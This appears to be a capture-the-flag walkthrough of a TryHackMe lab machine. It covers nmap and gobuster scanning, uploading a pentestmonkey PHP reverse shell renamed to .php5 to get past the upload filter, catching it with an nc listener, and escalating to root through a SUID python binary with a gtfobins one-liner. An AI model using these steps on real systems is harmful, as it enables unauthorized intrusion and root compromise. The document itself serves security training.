


<h1>Welcome to another Walk Through.</h1>

As usual will try to be as simple as possible with the instructions.

# Task 2 Reconnaissance

## Scan the machine, how many ports are open?

*Hint:Use nmap to do a port scan.*

We will use the following command to help us also with the next questions!

`sudo nmap -sC - sV ip_address` 

The answer: 2

## What version of Apache is running?

With the command we used before we can see that the answer is: 2.4.29

## What service is running on port 22?

Again the with the use of the results from the 1st command we can get the answer: SSH

## Find directories on the web server using the GoBuster tool.

*Hint: gobuster dir -u 10.10.99.180 -w WORDLIST_PATH*

Lets use another tool now we have already the command   we need to use from the hint. 
If you are using Kali linux just find a any wordlists here `/usr/share/wordlists/`

I personally used this one: `'/usr/share/wordlists/dirbuster/directory-list-1.0.txt'`

No answer needed for this

## What is the hidden directory?

After the search with gobuster is done you can see some of the hidden directories. (It is still running as you can see, my wordlist is big) 

Trying the directories we are lucky becasue the first one is the correct one.

So the answer is : /panel/

# Task 3 Getting a shell

## Find a form to upload and get a reverse shell, and find the flag.
*Hint:Search for "file upload bypass" and "PHP reverse shell".*

Now we are getting more technical!

If we try to open the webpage that is corresponding to the server and add the directory we found in the previous task we get this response:

So they are giving us a way to upload the reverse shell script :)

We can use [pentestmonkey](https://pentestmonkey.net/tools/web-shells/php-reverse-shell) reverse shell. The website provides us also with information of how to set up our *listening port*.

Follow the instructions and change the IP and also the listening port(The port is optional).

**Important when you try to run the shell for the first time you will see that the server is not allowing you run php scripts. I will save you the search and headache. You need to change the extension of the file to .php5**

The file is saved to a directory that we also found on our previous step `/uploads`.

Now let us start the listening `nc -v -n -l -p 1234`. Of Course you will have to change the listening port to the one you are using. 
Now we are supposedly to run the following command `curl http://10.10.99.180/uploads/shell.php5` or you can just use the browser to run it using `http://10.10.99.180/uploads/shell.php5`.

If you are running the Kali Linux with UTM VM like me probably you get this message:

Unfortunately with the little experience I have with these kinds of errors I believe that the problem is the Virtualization of UTM/Parallels etc. I followed the same steps with the VM that is provided by the TryHackMe website and this is the result:

Now we can start checking around, or we can use the command `find / -type f -name "user.txt"`.

With this command will search all the directories for a file name calles "user.txt". You will see many directories returning with `Permission denied`.

Eventually you will find the file here: `/var/www/user.txt`

And the answer is:

# Task 4 Privilege escalation

##  Search for files with SUID permission, which file is weird?
*Hint:find / -user root -perm /4000*

Let's use the suggested command but, before we do it we should cut out the extra lines that are denied.

Use the following command for this: `find / -user root -perm /4000 2>/dev/null`

With some trial and error we found out that the weird file was `usr/bin/python`. 

This indicates that we can probably run python scripts!

## Find a form to escalate your privileges.
*Hint:Search for gtfobins*

Searching the web for gtfobins we get the command we need to run in python to get privilege escalation.

`./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

But in order to be able to execute we must first move to the directory that python is located. So `cd /usr/bin/` and now we can run the command.

**Success**

## root.txt

Now again with the find command we should try to locate the root.txt
`fin / root.txt |grep root.txt`

Finally with `cat /root/root.txt` we get the flag!

**I hope you had enjoyed another of my writeups**
 